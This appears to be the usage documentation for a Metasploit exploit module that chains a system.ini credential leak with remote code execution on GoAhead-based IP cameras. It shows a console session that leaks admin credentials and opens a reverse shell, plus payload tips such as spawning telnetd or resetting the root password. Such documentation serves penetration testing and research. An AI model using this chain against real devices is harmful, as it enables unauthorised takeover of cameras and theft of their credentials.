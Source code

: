 ## Vulnerable Application
  This module exploits an authenticated remote code execution in various branded ip cameras based on the same chinese OEM model.
  Those cameras are also vulnerable to a badly implemented check on system.ini file within the embedded GoAhead web server.
  By combining the two vulnerabilities, it is possible to achieve code execution without prior knowledge of any credentials.
  1250+ Cameras models have been found vulnerable so far.
  While the credential leak is pretty reliable, a smaller subset of those cameras have netcat available.
  Others have a smaller payload size or tend to mangle some characters on longer strings.
  Using a generic command payload to start a telnetd or change root password may be more suitable in those cases.

## Verification Steps
```
  msf exploit(ipcam_rce_with_creds_leak) > set VERBOSE true
  VERBOSE => true
  msf exploit(ipcam_rce_with_creds_leak) > set RHOST 192.168.1.66
  RHOST => 192.168.1.66
  msf exploit(ipcam_rce_with_creds_leak) > set RPORT 81
  RPORT => 81
  msf exploit(ipcam_rce_with_creds_leak) > check

  [*] Sending check
  [+] Camera likely vulnerable: Correct header sent by the camera
  [+] 192.168.1.66:81 The target is vulnerable.
  msf exploit(ipcam_rce_with_creds_leak) > exploit

  [*] Started reverse TCP handler on 192.168.1.1:4444
  [*] Trying to download system.ini
  [*] 192.168.1.66:81 - Credentials saved in: /root/.msf4/loot/20170512095335_default_192.168.1.66_system.ini_421085.ini
  [*] Trying to extract credentials
  [+] Found 1 possible credentials
  [+] login: admin / password: test
  [!] No active DB -- Credential data will not be saved!
  [*] Trying to trigger code execution with credentials: login: admin / password: test
  [*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.66:32412) at 2017-05-12 09:53:35 -0400
```
## Options

  **PAYLOAD**

  The `generic` and `netcat-e` payload types are valid. If the netcat-e does not provide a shell this surely means that nc binary is not provided within the firmware
  or the nc symlink to busybox is not present.
  In that case use a generic command to change the root password, spawn a new unauthenticated telnetd daemon or anything else.

  Payload space is a real issue to deal with. The payload space is in theory 60 chars. when calling set_ftp.cgi the payload will be handled directly by the
  GoAhead server binary named 'encoder' on most models. Depending on the model the payload can be mangled when non word character are used and/or size is above some threshold.
  A good compromise is to use a payload space of 45 which seems to works correctly on several model tested. It is possible to verify if the payload has been mangled
  by downloading system.ini again after execution attempt (set GATHER_CREDS_ONLY true) and manually analyzing it. The payload should be fully located in the binary file. 


  **GATHER_CREDS_ONLY**

  Use this options to only download system.ini and extract credentials without attempting code execution.

  **USERNAME**

  Use a predifined username for code execution by skipping credential leak attempt

  **PASSWORD**

  Use a predifined password when USERNAME is set

